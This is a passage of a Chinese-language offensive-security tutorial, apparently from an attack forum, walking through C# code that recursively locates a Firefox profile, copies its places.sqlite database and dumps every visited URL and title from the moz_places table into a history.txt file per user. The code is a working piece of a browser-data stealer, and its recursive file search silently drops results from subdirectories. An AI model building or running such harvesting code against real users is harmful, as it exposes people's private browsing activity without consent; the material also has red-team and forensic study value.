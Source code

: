 跟到FindFile方法。

```php
public static string FindFile(string filePath, string fileName)
{
    string returnstr = "";
    DirectoryInfo[] dateDirArr = new DirectoryInfo(filePath).GetDirectories();
    foreach (DirectoryInfo directoryInfo in dateDirArr)
    {
        //Console.WriteLine(directoryInfo);
        string Directoryfullpath = filePath + "\\" + directoryInfo;
        string Filefullpath = Directoryfullpath + "\\" + fileName;
        if (!File.Exists(Filefullpath))
        {
            FindFile(Directoryfullpath, fileName);
        }
        else
        {
            returnstr =  Filefullpath;
        }
    }
    return returnstr;
}
```

遍历目录以及子目录，如果存在则返回全路径，反正返回空。

0x03 历史记录
=========

历史记录存在与places.sqlite库的moz\_places表里面

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-0581d7bbaa2d6c1d70611687b9cbf60ac259e0c3.png)

所以我们在当前用户目录创建文件夹然后创建history.txt记录值,不要忘记关闭打开的sqlite数据库。

```php
if (firefox_cookie_path != "")
{
    //copy
    string cookie_path_current = UserFolder + "\\" + firefox_cookie;
    StreamWriter cookue_file_cuurent = File.CreateText(cookie_path_current);
    cookue_file_cuurent.Close();

    bool isrewrite = true;
    File.Copy(firefox_cookie_path, cookie_path_current, isrewrite);
    SQLiteConnection connect = new SQLiteConnection(@"Data Source=" + cookie_path_current);
    connect.Open();
    string sql = "select  * from moz_places";
    SQLiteCommand command = new SQLiteCommand(sql, connect);
    command.CommandType = CommandType.Text;
    SQLiteDataReader r = command.ExecuteReader();
    string gethistorypath = UserFolder + "\\history.txt";
    StreamWriter history = File.CreateText(gethistorypath);
    history.Close();
    string HistoryMemberof = "user:" + username + "\r\n\r\n";
    File.AppendAllText(gethistorypath, HistoryMemberof);
    while (r.Read())
    {

        string url = Convert.ToString(r["url"]);
        string title = Convert.ToString(r["title"]);
        string description = Convert.ToString(r["description"]);;
        string out_string = "url:"+url + "\r\n" + "title:"+title + "\r\n";
        File.AppendAllText(gethistorypath, out_string);
    }
    connect.Close();
```